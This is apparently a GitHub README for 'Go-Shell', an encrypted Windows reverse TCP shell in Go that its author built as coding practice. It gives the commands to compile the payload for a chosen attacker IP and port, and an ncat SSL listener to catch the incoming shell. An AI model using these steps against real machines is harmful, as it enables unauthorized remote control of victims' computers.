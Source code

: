 <div >
    <img src="assets/owl.jpg" align="left" height="40px" width="40px"/>
    <img src="assets/medusa.png" align="right" height="40px" width="40px"/>
    <h1 align="center" > Go-Shell - Golang Reverse TCP Shell </h1>
</div>

## About

Windows 32/64 encrypted reverse TCP shell a simplified version inspirado in [hershell](https://github.com/lesnuages/hershell) which has a lot more features like cross compile to linux (check it out!).

<img src="assets/gopher.png" align="right" width="180" height="200" />

## Features
- Encrypted
- Can compile to 32 or 64bit architecture
- Certificate fingerprint pinning 

## Why?

I just wanted to practice some coding and a reverse tcp shell for windows with encryption and no extra functionalities like meterpreter integration

## Usage

- Clone the repo to compile it and modify it (Make sure to have golang installed!)
```bash
git clone https://github.com/Alpharivs/go-shell.git
```
- Prepare and compile the payload
```bash
# Generate Certificates
make prepare
# Compile Shell 
make windows64/windows32 LHOST=[IP] LPORT=[PORT]
```
- Set up a listener with ncat or any tool that can handle incoming ssl connections
```bash
# Set up listener
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lnvp [PORT]
```
- execute !

- clean up
```bash
# Delete Certificates and shell
make clean
```
if you want a more in depth explanation of how it works check out [hershell](https://github.com/lesnuages/hershell).

<h2 align="center" > LVX-SIT</h2>
<h3 align="center" > MMDCCLXXV -- Ab urbe condita </h3>